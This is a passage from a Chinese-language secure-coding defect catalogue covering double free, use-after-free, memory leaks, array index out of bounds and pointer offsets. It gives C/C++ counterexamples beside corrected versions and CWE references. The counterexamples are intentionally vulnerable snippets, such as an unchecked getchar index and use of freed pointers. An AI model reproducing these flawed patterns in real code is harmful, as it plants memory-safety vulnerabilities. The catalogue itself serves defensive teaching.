#### CWD-1025-002 在单进程/线程下，内存释放后，指向内存的全局指针和其别名部分被置空或赋予新值，后续再次释放该悬空指针，导致访问已释放内存

#### CWD-1025-003 在单进程/线程下，内存释放后，指向内存的局部指针和其别名都未被置空或赋予新值，后续再次释放该悬空指针，导致访问已释放内存

#### CWD-1025-004 在单进程/线程下，内存释放后，指向内存的局部指针和其别名部分被置空或赋予新值，后续再次释放该悬空指针，导致访问已释放内存

#### CWD-1025-005 在多进程/线程下，内存释放后，指向内存的全局指针和其别名都未被置空或赋予新值，后续再次释放该悬空指针，导致访问已释放内存

#### CWD-1025-006 在多进程/线程下，内存释放后，指向内存的全局指针和其别名部分被置空或赋予新值，后续再次释放该悬空指针，导致访问已释放内存

#### CWD-1025-007 在多进程/线程下，内存释放后，指向内存的局部指针和其别名都未被置空或赋予新值，后续再次释放该悬空指针，导致访问已释放内存

#### CWD-1025-008 在多进程/线程下，内存释放后，指向内存的局部指针和其别名部分被置空或赋予新值，后续再次释放该悬空指针，导致访问已释放内存

**业界缺陷**

- [CWE-415: Double Free](https://cwe.mitre.org/data/definitions/415.html)
---

# CWD-1026 访问已释放内存

**描述**
<div style="display: flex; align-items: center">
<div style="width: 60%; ">访问已释放内存（Use-After-Free）是指指针在释放内存后重新使用或引用内存。在之后的某个时刻，内存可能被再次分配并保存在另一个指针中，而原始指针引用新分配中的某个位置。任何使用原始指针的操作都不再有效，因为内存“属于”操作新指针的代码。

存在以下风险：


- 意外值（Unexpected Value）- 崩溃（Crash）- 代码执行（Code Execution）
</div>
<div style="width: 5%;">
</div>
<div style="width: 30%;">```mermaid
sequenceDiagram
participant 指针 1
participant 指针 2
participant 已分配内存
指针 1 -> 已分配内存 : ① 分配内存
指针 1 -> 已分配内存 : ② 释放内存
指针 2 -> 已分配内存 : ③ 分配内存
指针 1 -> 已分配内存 : ④ 使用内存
```

</div>
</div>**语言: **C,CPP

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：使用RAII、智能指针
  在设计阶段选择使用RAII、智能指针（如C++中的std::unique_ptr或std::shared_ptr），以自动管理内存生命周期，减少过期指针的风险。

**编码**
- 策略1：释放后置空
  在代码中，每次释放指针后立即将其设为NULL或nullptr，防止悬空指针的使用。

**代码Review**
- 策略1：指针使用审查
  特别关注指针的释放和置空，确保所有指针在释放后被正确处理。

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检测Use After Free问题。

**示例**
**案例1: 局部变量指向的资源被释放后被使用**
**语言: **C

**描述**
释放内存后如果不正确地处理指针，可能会导致悬空指针。

**案例分析**
在condition为真时，p指向的内存被释放，但指针p仍然指向该内存地址。
后续使用use(p)时，p可能已经指向无效的内存，导致未定义行为。

**反例**
```c
void Use(void *p);
void BadCase1()
{
    void *p = malloc(1);
    if (p == NULL) {
        return;
    }
    if (condition) {
        free(p); // 释放内存
    }
    ...
    use(p); // 不符合：使用释放后的内存
}
```

**正例**
```c
void GoodCase1()
{
    void *p = malloc(1);
    if (p == NULL) {
        return;
    }
    if (condition) {
        free(p);
        p = NULL;   // 符合：p释放后置空
    }
    ...
    if (p != NULL) { // 符合：指针使用前做好空指针校验
        use(p);
    }
    free(p);
}
```

**修复建议**
1. 指针指向的内存被释放后，将该指针设置为空。
2. 指针使用前做好空指针校验。

**案例2: 保存std::string的c_str()结果导致指针失效**
**语言: **CPP

**描述**
std::string 的内存管理是动态的，会根据需要自动调整内存大小。当你调用 c_str() 时，它返回的指针指向的是当前 std::string 对象的内存。一旦 std::string 对象被修改或销毁，其内部的内存可能会被释放或重新分配，导致之前的指针失效。

**案例分析**
c_str() 方法返回一个指向 std::string 对象内部字符数组的 const char* 指针。这个指针指向的是 std::string 对象管理的内存空间中的字符数组。p 指向的内存地址存储的是 "hello" 的字符序列。当 s 被重新赋值为 "world" 时，std::string 可能会重新分配内存。因此，之前保存的指针p 可能已经指向了一块已经被释放的内存。

**反例**
```c
void Foo()
{
    std::string s{"hello"};
    const char *p = s.c_str();  // 不符合：保存c_str()的结果
    s = "world";
    std::cout << p;             // 对象s已`修改`，指针p已失效
}
```

**正例**
```c
void Foo()
{
    std::string s{"hello"};
    ...
    s = "world";
    std::cout << s.c_str();     // 符合：在每次需要时直接调用c_str
}
```

**修复建议**
不要保存std::string类型的c_str()和data()的结果，而是在每次需要时直接调用。这样可以确保指针始终有效，避免因对象修改或销毁导致的指针失效问题。

#### CWD-1026-000 访问已释放内存

#### CWD-1026-001 在单进程/线程下，内存释放后，指向内存的全局指针和其别名都未被置空或赋予新值，后续使用该悬空指针，导致访问已释放内存

#### CWD-1026-002 在单进程/线程下，内存释放后，指向内存的全局指针和其别名部分被置空或赋予新值，后续使用该悬空指针，导致访问已释放内存

#### CWD-1026-003 在单进程/线程下，内存释放后，指向内存的局部指针和其别名都未被置空或赋予新值，后续使用该悬空指针，导致访问已释放内存

#### CWD-1026-004 在单进程/线程下，内存释放后，指向内存的局部指针和其别名部分被置空或赋予新值，后续使用该悬空指针，导致访问已释放内存

#### CWD-1026-005 在多进程/线程下，内存释放后，指向内存的全局指针和其别名都未被置空或赋予新值，后续使用该悬空指针，导致访问已释放内存

#### CWD-1026-006 在多进程/线程下，内存释放后，指向内存的全局指针和其别名部分被置空或赋予新值，后续使用该悬空指针，导致访问已释放内存

#### CWD-1026-007 在多进程/线程下，内存释放后，指向内存的局部指针和其别名都未被置空或赋予新值，后续使用该悬空指针，导致访问已释放内存

#### CWD-1026-008 在多进程/线程下，内存释放后，指向内存的局部指针和其别名部分被置空或赋予新值，后续使用该悬空指针，导致访问已释放内存

**业界缺陷**

- [CWE-416: Use After Free](https://cwe.mitre.org/data/definitions/416.html)
---

# CWD-1027 内存在有效生命周期后未释放（内存泄漏）

**描述**
内存是一种有限的资源，每个程序都需要从系统中申请内存来存储数据和执行操作。如果程序动态分配了内存（如通过 malloc、new 等函数/运算符）但未及时释放，这些内存将无法被系统回收，最终可能导致内存耗尽，程序因无法申请到新的内存而崩溃。

因此，开发者必须手动管理内存，及时释放不再使用的内存资源。同时，可以采用智能指针（如 C++ 的 std::unique_ptr、std::shared_ptr）或遵循 RAII 原则，确保内存被正确释放，避免内存泄漏问题的发生。

**语言: **C,CPP

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：使用RAII、智能指针
  在设计阶段选择使用RAII、智能指针（如C++中的std::unique_ptr或std::shared_ptr），以自动管理内存生命周期，减少内存泄漏的风险。

**编码**
- 策略1：确保申请的内存在每个路径都有释放操作
  在编码时，确保每个内存分配操作（如new或malloc）都有对应的释放操作（如delete或free），并且释放操作覆盖所有代码路径，包括正常执行路径和异常处理路径。
- 策略2：在异常处理中使用try-catch-finally结构
  在异常处理中使用try-catch-finally结构，确保在异常情况下内存仍然被正确释放，避免内存泄漏。
- 策略3：避免在循环中动态分配内存而不释放
  避免在循环中动态分配内存而不释放，导致内存逐渐累积。如果需要在循环中使用动态内存，确保每次循环结束后释放内存。

**代码Review**
- 策略1：检查内存分配和释放是否成对出现
在代码Review过程中，检查内存分配和释放操作是否成对出现，确保没有内存泄漏。
- 策略2：确保异常处理中的内存释放正确性
检查异常处理逻辑，确保在异常情况下内存仍然被正确释放，避免内存泄漏。

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检测内存泄漏问题。

**示例**
**案例1: 异常分支下的内存释放遗漏**
**语言: **C

**描述**
当flag == 1为真时，函数直接返回，但未释放内存p，导致内存泄漏。

**反例**
```c
void BadCase01(int flag)
{
    void *p = malloc(10);
    if (p == NULL) {
        return;
    }
    if (flag == 1) {
        // 不符合：变量p未释放
        return;
    }
    free(p);
}
```

**正例**
```c
void GoodCase01(int flag)
{
    void *p = malloc(10);
    if (p == NULL) {
        return;
    }
    if (flag == 1) {
        free(p);    // 符合
        return;
    }
    free(p);
}
```

**修复建议**
检查所有的路径：确保每个内存分配都有对应的释放，特别是在所有可能的错误和正常路径上。

**案例2: 连续申请内存的场景，忘记释放之前申请的内存**
**语言: **CPP

**描述**
在连续申请内存的场景中，若中间某次内存申请失败，未及时释放之前已成功申请的内存块，将导致内存泄漏。

**案例分析**
ptr2申请失败，函数直接返回，而未释放ptr1。ptr1指向的内存将永远无法释放，造成内存泄漏。

**反例**
```c
void Func()
{
    char *ptr1 = new (std::nothrow) char[BUFFER_SIZE1];
    if (ptr1 == nullptr) {
        return;
    }
    char *ptr2 = new (std::nothrow) char[BUFFER_SIZE2];
    if (ptr2 == nullptr) {
        return; // 不符合：ptr1未释放
    }
    ...
    delete[] ptr1;
    delete[] ptr2;
    return;
}
```

**正例**
```c
void Func()
{
    char *ptr1 = new (std::nothrow) char[BUFFER_SIZE1];
    if (ptr1 == nullptr) {
        return;
    }
    char *ptr2 = new (std::nothrow) char[BUFFER_SIZE2];
    if (ptr2 == nullptr) {
        delete[] ptr1; // 符合：释放ptr1
        return;
    }
    ...
    delete[] ptr1;
    delete[] ptr2;
    return;
}
```

**修复建议**
1. 检查内存申请结果并释放之前分配的内存：
在每次内存申请失败时，检查并释放之前已经成功申请的所有内存块。
1. 使用智能指针管理内存：
使用C++的智能指针（如std::unique_ptr或std::shared_ptr）来管理内存。智能指针会在对象生命周期结束时自动释放内存，从而避免手动释放的繁琐和潜在错误。

#### CWD-1027-000 内存泄漏

#### CWD-1027-001 在单进程/线程下，全局作用域内的指针申请的内存，在if语句分支中因中途被丢失，导致内存泄漏

#### CWD-1027-002 在单进程/线程下，全局作用域内的指针申请的内存，在if语句分支中因一直未释放，导致内存泄漏

#### CWD-1027-003 在单进程/线程下，全局作用域内的指针申请的内存，在循环体中因中途被丢失，导致内存泄漏

#### CWD-1027-004 在单进程/线程下，全局作用域内的指针申请的内存，在循环体中因一直未释放，导致内存泄漏

#### CWD-1027-005 在单进程/线程下，全局作用域内的指针申请的内存，在switch中因中途被丢失，导致内存泄漏

#### CWD-1027-006 在单进程/线程下，全局作用域内的指针申请的内存，在switch中因一直未释放，导致内存泄漏

#### CWD-1027-007 在单进程/线程下，全局作用域内的指针申请的内存，在宏中因中途被丢失，导致内存泄漏

#### CWD-1027-008 在单进程/线程下，全局作用域内的指针申请的内存，在宏中因一直未释放，导致内存泄漏

#### CWD-1027-009 在单进程/线程下，全局作用域内的指针申请的内存，在goto中因中途被丢失，导致内存泄漏

#### CWD-1027-010 在单进程/线程下，全局作用域内的指针申请的内存，在goto中因一直未释放，导致内存泄漏

#### CWD-1027-011 在单进程/线程下，全局作用域内的指针申请的内存，在无控制语句的代码中因中途被丢失，导致内存泄漏

#### CWD-1027-012 在单进程/线程下，全局作用域内的指针申请的内存，在无控制语句的代码中因一直未释放，导致内存泄漏

#### CWD-1027-013 在单进程/线程下，局部作用域内的指针申请的内存，在if语句分支中因中途被丢失，导致内存泄漏

#### CWD-1027-014 在单进程/线程下，局部作用域内的指针申请的内存，在if语句分支中因一直未释放，导致内存泄漏

#### CWD-1027-015 在单进程/线程下，局部作用域内的指针申请的内存，在循环体中因中途被丢失，导致内存泄漏

#### CWD-1027-016 在单进程/线程下，局部作用域内的指针申请的内存，在循环体中因一直未释放，导致内存泄漏

#### CWD-1027-017 在单进程/线程下，局部作用域内的指针申请的内存，在switch中因中途被丢失，导致内存泄漏

#### CWD-1027-018 在单进程/线程下，局部作用域内的指针申请的内存，在switch中因一直未释放，导致内存泄漏

#### CWD-1027-019 在单进程/线程下，局部作用域内的指针申请的内存，在宏中因中途被丢失，导致内存泄漏

#### CWD-1027-020 在单进程/线程下，局部作用域内的指针申请的内存，在宏中因一直未释放，导致内存泄漏

#### CWD-1027-021 在单进程/线程下，局部作用域内的指针申请的内存，在goto中因中途被丢失，导致内存泄漏

#### CWD-1027-022 在单进程/线程下，局部作用域内的指针申请的内存，在goto中因一直未释放，导致内存泄漏

#### CWD-1027-023 在单进程/线程下，局部作用域内的指针申请的内存，在无控制语句的代码中因中途被丢失，导致内存泄漏

#### CWD-1027-024 在单进程/线程下，局部作用域内的指针申请的内存，在无控制语句的代码中因一直未释放，导致内存泄漏

#### CWD-1027-025 在多进程/线程下，全局作用域内的指针申请的内存，在if语句分支中因中途被丢失，导致内存泄漏

#### CWD-1027-026 在多进程/线程下，全局作用域内的指针申请的内存，在if语句分支中因一直未释放，导致内存泄漏

#### CWD-1027-027 在多进程/线程下，全局作用域内的指针申请的内存，在循环体中因中途被丢失，导致内存泄漏

#### CWD-1027-028 在多进程/线程下，全局作用域内的指针申请的内存，在循环体中因一直未释放，导致内存泄漏

#### CWD-1027-029 在多进程/线程下，全局作用域内的指针申请的内存，在switch中因中途被丢失，导致内存泄漏

#### CWD-1027-030 在多进程/线程下，全局作用域内的指针申请的内存，在switch中因一直未释放，导致内存泄漏

#### CWD-1027-031 在多进程/线程下，全局作用域内的指针申请的内存，在宏中因中途被丢失，导致内存泄漏

#### CWD-1027-032 在多进程/线程下，全局作用域内的指针申请的内存，在宏中因一直未释放，导致内存泄漏

#### CWD-1027-033 在多进程/线程下，全局作用域内的指针申请的内存，在goto中因中途被丢失，导致内存泄漏

#### CWD-1027-034 在多进程/线程下，全局作用域内的指针申请的内存，在goto中因一直未释放，导致内存泄漏

#### CWD-1027-035 在多进程/线程下，全局作用域内的指针申请的内存，在无控制语句的代码中因中途被丢失，导致内存泄漏

#### CWD-1027-036 在多进程/线程下，全局作用域内的指针申请的内存，在无控制语句的代码中因一直未释放，导致内存泄漏

#### CWD-1027-037 在多进程/线程下，局部作用域内的指针申请的内存，在if语句分支中因中途被丢失，导致内存泄漏

#### CWD-1027-038 在多进程/线程下，局部作用域内的指针申请的内存，在if语句分支中因一直未释放，导致内存泄漏

#### CWD-1027-039 在多进程/线程下，局部作用域内的指针申请的内存，在循环体中因中途被丢失，导致内存泄漏

#### CWD-1027-040 在多进程/线程下，局部作用域内的指针申请的内存，在循环体中因一直未释放，导致内存泄漏

#### CWD-1027-041 在多进程/线程下，局部作用域内的指针申请的内存，在switch中因中途被丢失，导致内存泄漏

#### CWD-1027-042 在多进程/线程下，局部作用域内的指针申请的内存，在switch中因一直未释放，导致内存泄漏

#### CWD-1027-043 在多进程/线程下，局部作用域内的指针申请的内存，在宏中因中途被丢失，导致内存泄漏

#### CWD-1027-044 在多进程/线程下，局部作用域内的指针申请的内存，在宏中因一直未释放，导致内存泄漏

#### CWD-1027-045 在多进程/线程下，局部作用域内的指针申请的内存，在goto中因中途被丢失，导致内存泄漏

#### CWD-1027-046 在多进程/线程下，局部作用域内的指针申请的内存，在goto中因一直未释放，导致内存泄漏

#### CWD-1027-047 在多进程/线程下，局部作用域内的指针申请的内存，在无控制语句的代码中因中途被丢失，导致内存泄漏

#### CWD-1027-048 在多进程/线程下，局部作用域内的指针申请的内存，在无控制语句的代码中因一直未释放，导致内存泄漏

#### CWD-1027-049 类内部的成员变量申请的内存，无自定义析构函数，导致内存泄漏

#### CWD-1027-050 类内部的成员变量申请的内存，有自定义析构函数但未在其中释放内存，导致内存泄漏

#### CWD-1027-051 类内部的成员变量申请的内存，有自定义析构函数且在其中释放内存，但未被调用，导致内存泄漏

#### CWD-1027-052 类内部的成员变量申请的内存，成员函数内被丢失，导致内存泄漏

#### CWD-1027-053 内核系统调用申请的内存存放在内核全局队列中，拆链使用后未释放，导致内存泄漏

**业界缺陷**

- [CWE-401: Missing Release of Memory after Effective Lifetime](https://cwe.mitre.org/data/definitions/401.html)
---

# CWD-1028 数组索引越界

**描述**
外部数据导致的数组越界比较常见，当外部数据直接或者间接作为数组索引时，未校验或不正确校验，不能保证该数值在数组大小范围内。内部数据也会导致数组越界，比如计算错误、差一错误等。如果数组越界所在的位置能被攻击者调用，则有可能导致不可预计的安全问题。因此，数组索引使用前要校验该数值是否在数组大小范围内。

**语言: **C,CPP

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：明确数据来源和边界条件
  在设计阶段，明确数据来源和边界条件。对于外部数据，设计输入验证机制，确保数据在合理范围内。对于内部数据，设计计算逻辑时考虑边界情况，避免差一错误。

**编码**
- 策略1：对索引进行严格的范围检查
  在使用数组索引前，明确数组的大小，并对索引进行严格的范围检查。例如，使用if语句确保索引在0到数组长度减一之间。避免直接使用外部数据作为索引，除非经过验证。

**开发者测试**
- 策略1：边界条件测试
  编写单元测试，覆盖数组索引的各种边界情况，如最小值、最大值、负数等。同时，模拟外部数据输入，确保所有可能的输入都被正确处理。

**代码Review**
- 策略1：审查索引逻辑
  特别关注数组的使用情况，检查索引的来源和范围。确保每个数组访问都有相应的验证逻辑，防止遗漏。

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检测数组索引越界问题。

**集成测试**
- 策略1：边界条件测试
  在集成测试中，模拟各种极端输入，特别是可能导致数组越界的外部数据。进行压力测试和安全测试，确保系统在面对恶意输入时不会崩溃或被利用。

**示例**
**案例1: 外部数据未经校验作为数组下标**
**语言: **C

**描述**
直接使用外部输入的数据作为数组下标，而没有进行边界检查，可能导致缓冲区溢出。

**反例**
```c
void TestBad01()
{
    int data[DATA_LEN] = {0};
    int a = getchar();  // getchar获取外部数据
    data[a] = 1;        // 不符合：外部数据未经校验作为数组下标，可能导致缓冲区溢出
}
```

**正例**
```c
void TestGood01()
{
    int data[DATA_LEN] = {0};
    int a = getchar();              // getchar获取外部数据
    if (a >= 0 && a < DATA_LEN) {
        data[a] = GetData();        // 符合：数组下标已进行合理的校验
    }
}
```

**修复建议**
在使用外部输入的数据作为数组下标之前，必须进行严格的边界检查，确保其值在数组的有效索引范围内。

**案例2: 数组索引先使用后校验的做法可能会导致越界访问**
**语言: **CPP

**描述**
如果在循环条件中先访问数组元素，然后再检查索引是否在合法范围内，可能会导致在索引越界的情况下访问数组，从而引发未定义行为。

**反例**
```c
void Example()
{
    char arr[32];
    for(int i = 0; arr[i] > 0 && i < 32; ++i) /* 不符合：循环条件语句中存在数组下标先访问后校验*/
    {
        ...
    }
}
```

**正例**
```c
void Example()
{
    char arr[32];
    for(int i = 0; i < 32 && arr[i] > 0; ++i) /* 符合：循环条件语句中存在数组下标先访问后校验*/
    {
        ...
    }
}
```

**修复建议**
先检查数组下标是否在合法范围内，然后再进行访问。

#### CWD-1028-000 数组索引越界

#### CWD-1028-001 使用来自内部数据的数值，传递过程未经过计算，直接作为数组索引前未校验（不带数组长度），导致数组索引越界

#### CWD-1028-002 使用来自内部数据的数值，传递过程未经过计算，直接作为数组索引前未校验（带正确的数组长度），导致数组索引越界

#### CWD-1028-003 使用来自内部数据的数值，传递过程未经过计算，直接作为数组索引前未校验（带错误的数组长度），导致数组索引越界

#### CWD-1028-004 使用来自内部数据的数值，传递过程未经过计算，作为循环边界，其循环变量作为数组索引前未校验（不带数组长度），导致数组索引越界

#### CWD-1028-005 使用来自内部数据的数值，传递过程未经过计算，作为循环边界，其循环变量作为数组索引前未校验（带正确的数组长度），导致数组索引越界

#### CWD-1028-006 使用来自内部数据的数值，传递过程未经过计算，作为循环边界，其循环变量作为数组索引前未校验（带错误的数组长度），导致数组索引越界

#### CWD-1028-007 使用来自内部数据的数值，传递过程未经过计算，直接作为数组索引前校验错误（不带数组长度），导致数组索引越界

#### CWD-1028-008 使用来自内部数据的数值，传递过程未经过计算，直接作为数组索引前校验错误（带正确的数组长度），导致数组索引越界

#### CWD-1028-009 使用来自内部数据的数值，传递过程未经过计算，直接作为数组索引前校验错误（带错误的数组长度），导致数组索引越界

#### CWD-1028-010 使用来自内部数据的数值，传递过程未经过计算，作为循环边界，其循环变量作为数组索引前校验错误（不带数组长度），导致数组索引越界

#### CWD-1028-011 使用来自内部数据的数值，传递过程未经过计算，作为循环边界，其循环变量作为数组索引前校验错误（带正确的数组长度），导致数组索引越界

#### CWD-1028-012 使用来自内部数据的数值，传递过程未经过计算，作为循环边界，其循环变量作为数组索引前校验错误（带错误的数组长度），导致数组索引越界

#### CWD-1028-013 使用来自内部数据的数值，传递过程经过正确计算，直接作为数组索引前未校验（不带数组长度），导致数组索引越界

#### CWD-1028-014 使用来自内部数据的数值，传递过程经过正确计算，直接作为数组索引前未校验（带正确的数组长度），导致数组索引越界

#### CWD-1028-015 使用来自内部数据的数值，传递过程经过正确计算，直接作为数组索引前未校验（带错误的数组长度），导致数组索引越界

#### CWD-1028-016 使用来自内部数据的数值，传递过程经过正确计算，作为循环边界，其循环变量作为数组索引前未校验（不带数组长度），导致数组索引越界

#### CWD-1028-017 使用来自内部数据的数值，传递过程经过正确计算，作为循环边界，其循环变量作为数组索引前未校验（带正确的数组长度），导致数组索引越界

#### CWD-1028-018 使用来自内部数据的数值，传递过程经过正确计算，作为循环边界，其循环变量作为数组索引前未校验（带错误的数组长度），导致数组索引越界

#### CWD-1028-019 使用来自内部数据的数值，传递过程经过正确计算，直接作为数组索引前校验错误（不带数组长度），导致数组索引越界

#### CWD-1028-020 使用来自内部数据的数值，传递过程经过正确计算，直接作为数组索引前校验错误（带正确的数组长度），导致数组索引越界

#### CWD-1028-021 使用来自内部数据的数值，传递过程经过正确计算，直接作为数组索引前校验错误（带错误的数组长度），导致数组索引越界

#### CWD-1028-022 使用来自内部数据的数值，传递过程经过正确计算，作为循环边界，其循环变量作为数组索引前校验错误（不带数组长度），导致数组索引越界

#### CWD-1028-023 使用来自内部数据的数值，传递过程经过正确计算，作为循环边界，其循环变量作为数组索引前校验错误（带正确的数组长度），导致数组索引越界

#### CWD-1028-024 使用来自内部数据的数值，传递过程经过正确计算，作为循环边界，其循环变量作为数组索引前校验错误（带错误的数组长度），导致数组索引越界

#### CWD-1028-025 使用来自内部数据的数值，传递过程经过错误计算，直接作为数组索引前未校验（不带数组长度），导致数组索引越界

#### CWD-1028-026 使用来自内部数据的数值，传递过程经过错误计算，直接作为数组索引前未校验（带正确的数组长度），导致数组索引越界

#### CWD-1028-027 使用来自内部数据的数值，传递过程经过错误计算，直接作为数组索引前未校验（带错误的数组长度），导致数组索引越界

#### CWD-1028-028 使用来自内部数据的数值，传递过程经过错误计算，作为循环边界，其循环变量作为数组索引前未校验（不带数组长度），导致数组索引越界

#### CWD-1028-029 使用来自内部数据的数值，传递过程经过错误计算，作为循环边界，其循环变量作为数组索引前未校验（带正确的数组长度），导致数组索引越界

#### CWD-1028-030 使用来自内部数据的数值，传递过程经过错误计算，作为循环边界，其循环变量作为数组索引前未校验（带错误的数组长度），导致数组索引越界

#### CWD-1028-031 使用来自内部数据的数值，传递过程经过错误计算，直接作为数组索引前校验错误（不带数组长度），导致数组索引越界

#### CWD-1028-032 使用来自内部数据的数值，传递过程经过错误计算，直接作为数组索引前校验错误（带正确的数组长度），导致数组索引越界

#### CWD-1028-033 使用来自内部数据的数值，传递过程经过错误计算，直接作为数组索引前校验错误（带错误的数组长度），导致数组索引越界

#### CWD-1028-034 使用来自内部数据的数值，传递过程经过错误计算，作为循环边界，其循环变量作为数组索引前校验错误（不带数组长度），导致数组索引越界

#### CWD-1028-035 使用来自内部数据的数值，传递过程经过错误计算，作为循环边界，其循环变量作为数组索引前校验错误（带正确的数组长度），导致数组索引越界

#### CWD-1028-036 使用来自内部数据的数值，传递过程经过错误计算，作为循环边界，其循环变量作为数组索引前校验错误（带错误的数组长度），导致数组索引越界

#### CWD-1028-037 使用来自外部数据的数值，传递过程未经过计算，直接作为数组索引前未校验（不带数组长度），导致数组索引越界

#### CWD-1028-038 使用来自外部数据的数值，传递过程未经过计算，直接作为数组索引前未校验（带正确的数组长度），导致数组索引越界

#### CWD-1028-039 使用来自外部数据的数值，传递过程未经过计算，直接作为数组索引前未校验（带错误的数组长度），导致数组索引越界

#### CWD-1028-040 使用来自外部数据的数值，传递过程未经过计算，作为循环边界，其循环变量作为数组索引前未校验（不带数组长度），导致数组索引越界

#### CWD-1028-041 使用来自外部数据的数值，传递过程未经过计算，作为循环边界，其循环变量作为数组索引前未校验（带正确的数组长度），导致数组索引越界

#### CWD-1028-042 使用来自外部数据的数值，传递过程未经过计算，作为循环边界，其循环变量作为数组索引前未校验（带错误的数组长度），导致数组索引越界

#### CWD-1028-043 使用来自外部数据的数值，传递过程未经过计算，直接作为数组索引前校验错误（不带数组长度），导致数组索引越界

#### CWD-1028-044 使用来自外部数据的数值，传递过程未经过计算，直接作为数组索引前校验错误（带正确的数组长度），导致数组索引越界

#### CWD-1028-045 使用来自外部数据的数值，传递过程未经过计算，直接作为数组索引前校验错误（带错误的数组长度），导致数组索引越界

#### CWD-1028-046 使用来自外部数据的数值，传递过程未经过计算，作为循环边界，其循环变量作为数组索引前校验错误（不带数组长度），导致数组索引越界

#### CWD-1028-047 使用来自外部数据的数值，传递过程未经过计算，作为循环边界，其循环变量作为数组索引前校验错误（带正确的数组长度），导致数组索引越界

#### CWD-1028-048 使用来自外部数据的数值，传递过程未经过计算，作为循环边界，其循环变量作为数组索引前校验错误（带错误的数组长度），导致数组索引越界

#### CWD-1028-049 使用来自外部数据的数值，传递过程经过正确计算，直接作为数组索引前未校验（不带数组长度），导致数组索引越界

#### CWD-1028-050 使用来自外部数据的数值，传递过程经过正确计算，直接作为数组索引前未校验（带正确的数组长度），导致数组索引越界

#### CWD-1028-051 使用来自外部数据的数值，传递过程经过正确计算，直接作为数组索引前未校验（带错误的数组长度），导致数组索引越界

#### CWD-1028-052 使用来自外部数据的数值，传递过程经过正确计算，作为循环边界，其循环变量作为数组索引前未校验（不带数组长度），导致数组索引越界

#### CWD-1028-053 使用来自外部数据的数值，传递过程经过正确计算，作为循环边界，其循环变量作为数组索引前未校验（带正确的数组长度），导致数组索引越界

#### CWD-1028-054 使用来自外部数据的数值，传递过程经过正确计算，作为循环边界，其循环变量作为数组索引前未校验（带错误的数组长度），导致数组索引越界

#### CWD-1028-055 使用来自外部数据的数值，传递过程经过正确计算，直接作为数组索引前校验错误（不带数组长度），导致数组索引越界

#### CWD-1028-056 使用来自外部数据的数值，传递过程经过正确计算，直接作为数组索引前校验错误（带正确的数组长度），导致数组索引越界

#### CWD-1028-057 使用来自外部数据的数值，传递过程经过正确计算，直接作为数组索引前校验错误（带错误的数组长度），导致数组索引越界

#### CWD-1028-058 使用来自外部数据的数值，传递过程经过正确计算，作为循环边界，其循环变量作为数组索引前校验错误（不带数组长度），导致数组索引越界

#### CWD-1028-059 使用来自外部数据的数值，传递过程经过正确计算，作为循环边界，其循环变量作为数组索引前校验错误（带正确的数组长度），导致数组索引越界

#### CWD-1028-060 使用来自外部数据的数值，传递过程经过正确计算，作为循环边界，其循环变量作为数组索引前校验错误（带错误的数组长度），导致数组索引越界

#### CWD-1028-061 使用来自外部数据的数值，传递过程经过错误计算，直接作为数组索引前未校验（不带数组长度），导致数组索引越界

#### CWD-1028-062 使用来自外部数据的数值，传递过程经过错误计算，直接作为数组索引前未校验（带正确的数组长度），导致数组索引越界

#### CWD-1028-063 使用来自外部数据的数值，传递过程经过错误计算，直接作为数组索引前未校验（带错误的数组长度），导致数组索引越界

#### CWD-1028-064 使用来自外部数据的数值，传递过程经过错误计算，作为循环边界，其循环变量作为数组索引前未校验（不带数组长度），导致数组索引越界

#### CWD-1028-065 使用来自外部数据的数值，传递过程经过错误计算，作为循环边界，其循环变量作为数组索引前未校验（带正确的数组长度），导致数组索引越界

#### CWD-1028-066 使用来自外部数据的数值，传递过程经过错误计算，作为循环边界，其循环变量作为数组索引前未校验（带错误的数组长度），导致数组索引越界

#### CWD-1028-067 使用来自外部数据的数值，传递过程经过错误计算，直接作为数组索引前校验错误（不带数组长度），导致数组索引越界

#### CWD-1028-068 使用来自外部数据的数值，传递过程经过错误计算，直接作为数组索引前校验错误（带正确的数组长度），导致数组索引越界

#### CWD-1028-069 使用来自外部数据的数值，传递过程经过错误计算，直接作为数组索引前校验错误（带错误的数组长度），导致数组索引越界

#### CWD-1028-070 使用来自外部数据的数值，传递过程经过错误计算，作为循环边界，其循环变量作为数组索引前校验错误（不带数组长度），导致数组索引越界

#### CWD-1028-071 使用来自外部数据的数值，传递过程经过错误计算，作为循环边界，其循环变量作为数组索引前校验错误（带正确的数组长度），导致数组索引越界

#### CWD-1028-072 使用来自外部数据的数值，传递过程经过错误计算，作为循环边界，其循环变量作为数组索引前校验错误（带错误的数组长度），导致数组索引越界

#### CWD-1028-073 【使用不可信输入来直接/间接作为数组索引，但未确保索引值在数组大小范围内】不正确不可信输入来直接/间接作为数组索引，但未确保索引值在数组大小范围内

**业界缺陷**

- [CWE-129: Improper Validation of Array Index](https://cwe.mitre.org/data/definitions/129.html)
---

# CWD-1029 指针偏移量超出范围

**描述**
指针偏移越界（Use of Out-of-range Pointer Offset）是指通过指针与偏移量的计算，访问超出预期内存区域的行为。这种偏移可能源于不可信的数据源、错误的计算或逻辑错误，导致指针指向无效内存区域。虽然指针可以引用任意内存位置，但程序通常仅限于访问特定的内存范围，例如数组或结构体的连续内存。

如果攻击者能够控制或影响偏移量，使其超出预期范围，就可能读取或写入程序中其他内存位置。这种行为可能导致程序崩溃、不稳定，甚至改变程序状态，通过变量访问影响软件行为，最终可能引发代码执行等严重安全问题。

为防止指针偏移越界，建议对偏移量进行严格的输入验证和边界检查，确保其在预期范围内。同时，使用安全的内存管理函数和结构体，避免直接操作指针和偏移量。

**语言: **C,CPP

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：明确数据来源和边界条件
  在设计阶段，明确数据来源和边界条件。对于外部数据，设计输入验证机制，确保数据在合理范围内。对于内部数据，设计计算逻辑时考虑边界情况，避免差一错误。

**编码**
- 策略1：对偏移量进行严格的范围检查
  在所有指针操作前，添加边界检查，确保偏移量在合法范围内。

**开发者测试**
- 策略1：边界条件测试
